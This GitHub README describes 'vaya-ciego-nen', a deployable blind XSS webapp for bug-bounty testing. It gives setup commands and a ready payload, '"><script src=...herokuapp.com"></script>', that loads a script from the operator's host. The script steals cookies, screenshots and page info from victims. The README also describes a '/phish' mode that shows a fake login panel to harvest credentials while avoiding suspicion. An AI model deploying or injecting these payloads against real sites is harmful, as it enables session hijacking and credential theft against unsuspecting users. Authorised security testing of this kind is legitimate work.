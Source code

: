 # vaya-ciego-nen
**vaya-ciego-nen** is a tool that allows you to create your own webapp to detect, manage and exploit **Blind Cross-site scripting (XSS)** vulnerabilities.

A more detailed guide about this tool can be found [here](https://hipotermia.pw/guide/vaya-ciego-nen).


<p align="center">
  <img src="/static/img/dash.png">
  <img src="/static/img/info.png">
</p>

## How does it work?
This webapp serves a malicious JavaScript payload that will execute if a XSS is present, retrieving cookies, a screenshot and more info. This info can be seen in a dashboard where you're able to manage all the triggers, which are stored in a PostgreSQL database.

## Usage
The project is oriented to be deployed in a **free** [heroku](heroku.com) instance, but the changes are minimum if you want to use the code in your own server.

First, you'll need to install [`heroku-cli`](https://devcenter.heroku.com/articles/heroku-cli) if you don't have it already. Then:
```
$ git clone https://github.com/hipotermia/vaya-ciego-nen
$ cd vaya-ciego-nen
$ heroku login
$ heroku create name_of_your_app
$ heroku addons:create heroku-postgresql:hobby-dev
```
Modify the file `config.py` with a username/password of your choice (used to access your dashboard), change the domain for your *name_of_your_app.herokuapp.com*, and finally:
```
$ git add .
$ git commit -m "letsgo"
$ git push heroku master
```
That's it! Now you have your own dashboard in *name_of_your_app.herokuapp.com/dashboard* and you just have to use your favorite payload like `"><script src="https://name_of_your_app.herokuapp.com"></script>` to find blind XSS.

## Not sure of which input triggered your payload?
Create different payloads for each input using `name_of_your_app.herokuapp.com/?extra` modifying the *extra* param and this will be visible on your dashboard to recognize it. You can use `/?email_input` for an email input for example.

## HttpOnly on the session cookie?
No worries, use `name_of_your_app.herokuapp.com/phish` in your payload and instead of collecting info, a fake login panel will appear in the victim's browser and if he enters its credentials, they're going to be sent to your dashboard! A cookie will be set on the victim's browser to control the login panel just appears once to avoid suspicion.
> **Note:** Most bugbounties don't allow phishing attacks on their programs. Don't do this unless you're 100% sure you're allowed.

<p align="center">
  <img src="/static/img/login.png">
</p>
